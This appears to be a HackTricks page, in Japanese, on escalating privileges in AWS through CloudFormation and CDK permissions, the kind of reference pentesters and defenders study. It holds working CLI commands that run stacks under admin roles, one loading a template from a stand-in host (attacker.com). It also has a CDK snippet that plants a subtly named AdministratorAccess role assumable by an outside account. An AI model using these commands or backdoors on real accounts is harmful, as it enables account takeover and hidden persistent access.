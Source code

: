 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

cloudformationに関する詳細情報は、以下を確認してください:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、**指定されたロールの権限の下でアクションを実行するために、サーバーにホストされたカスタムテンプレートを使用して** **CloudFormationスタック**を作成することで**権限を昇格させる**ことができます:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下のページには、追加の権限 **`cloudformation:DescribeStacks`** を持つ **エクスプロイトの例** があります：

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**潜在的な影響:** 指定されたcloudformationサービスロールへの権限昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、**既存のcloudformationスタックを悪用**して更新し、前のシナリオのように権限を昇格させることができます：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**スタックに対して `UpdateStack` 権限を付与**し、攻撃を実行できます。

**潜在的な影響:** 指定された cloudformation サービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが、**`iam:PassRole`** がない場合でも、**使用されているスタックを更新**し、**既に添付されている IAM ロールを悪用**することができます。悪用の例については前のセクションを確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy` 権限を使用して、**スタックに対して `UpdateStack` 権限を付与**し、攻撃を実行できます。

**潜在的な影響:** 既に添付されている cloudformation サービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

ロールを**渡し、ChangeSet を作成および実行する**権限を持つ攻撃者は、**新しい cloudformation スタックを作成/更新し、cloudformation サービスロールを悪用**することができます。これは CreateStack または UpdateStack と同様です。

以下の悪用は、**ChangeSet 権限を使用してスタックを作成する**[ **CreateStack のバリエーション**](#iam-passrole-cloudformation-createstack)です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、**自分に `ChangeSet` 権限を与え**、攻撃を実行できます。

**潜在的な影響:** cloudformation サービスロールへの権限昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前の方法と似ていますが、**IAM ロール**を渡さずに行うため、**すでにアタッチされているロールを悪用する**ことができます。パラメータを変更するだけです:
```
--change-set-type UPDATE
```
**潜在的影響:** すでにアタッチされているcloudformationサービスロールへの権限昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用してStackSetsを作成/更新し、任意のcloudformationロールを悪用することができます。

**潜在的影響:** cloudformationサービスロールへの権限昇格。

### `cloudformation:UpdateStackSet`

攻撃者はpassRole権限なしでこの権限を悪用してStackSetsを更新し、アタッチされたcloudformationロールを悪用することができます。

**潜在的影響:** アタッチされたcloudformationロールへの権限昇格。

## AWS CDK

AWS cdkは、ユーザーが既に慣れ親しんでいる言語でインフラストラクチャをコードとして定義できるツールキットであり、セクションを簡単に再利用できます。CDKはその後、高レベルのコード（つまりpython）をCloudformationテンプレート（yamlまたはjson）に変換します。

CDKを使用するには、管理者ユーザーが最初にアカウントをブートストラップする必要があり、これによりいくつかのIAMロールが作成されます。これには、\*/\*権限を持つ*exec role*が含まれます。これらのロールは、`cdk-<qualifier>-<name>-<account-id>-<region>`という命名構造に従います。ブートストラッピングは、アカウントごとに地域ごとに一度行う必要があります。

デフォルトでは、CDKユーザーはCDKを使用するために必要なロールをリストするアクセス権を持っていないため、それらを手動で特定する必要があります。開発者のマシンやCI/CDノードを侵害した場合、これらのロールを引き受けてCFNテンプレートをデプロイする能力を自分に付与することができ、`cfn-exec`ロールを使用してCFNが任意のリソースをデプロイできるようにし、アカウントを完全に侵害します。

### ロール名の特定

`cloudformation:DescribeStacks`を持っている場合、ロールは`CDKToolkit`というスタックに定義されており、そこから名前を取得できます。

CDKプロジェクトのビルドとデプロイに使用されたマシンにいる場合、プロジェクトのルートディレクトリにある`cdk.out/manafest.json`からそれらを取得できます。

また、それらが何であるかを良い推測をすることもできます。`qualifier`は、CDKブートストラップの複数のインスタンスを同時にデプロイできるようにするためにロールに追加される文字列ですが、デフォルト値は`hnb659fds`にハードコーディングされています。
```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```
### プロジェクトソースに悪意のあるコードを追加する

プロジェクトソースに書き込むことができるが、自分でデプロイできない場合（例えば、開発者がCI/CDを介してコードをデプロイする場合）、スタックに悪意のあるリソースを追加することで環境を侵害することができます。以下は、攻撃者アカウントによって引き受けられるIAMロールをpython CDKプロジェクトに追加します。
```python
class CdkTestStack(Stack):
def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
super().__init__(scope, construct_id, **kwargs)

# ----------
# Some existing code.....
# ----------

role = iam.Role(
self,
"cdk-backup-role", # Role name, make it something subtle
assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
managed_policies=[
iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
],
)
```
## 参考文献

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}
